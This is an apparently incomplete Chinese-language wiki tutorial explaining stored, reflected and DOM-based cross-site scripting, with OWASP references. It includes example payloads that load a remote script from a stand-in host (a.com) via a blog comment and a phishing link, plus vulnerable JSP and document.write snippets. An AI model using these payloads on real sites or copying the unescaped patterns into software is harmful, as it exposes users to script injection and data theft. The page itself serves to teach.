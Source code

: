 跨站脚本攻击(XSS - Cross Site Scripting)
==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

关键点
找到可以注入Script脚本的地方。

==分类==
===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点
1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>
2.
2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

DOM Based XSS
  你的程序本身存在一些依赖于来自于客户端的数据并展示，但是对来源数据为做安全检查。



防范方式 


参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)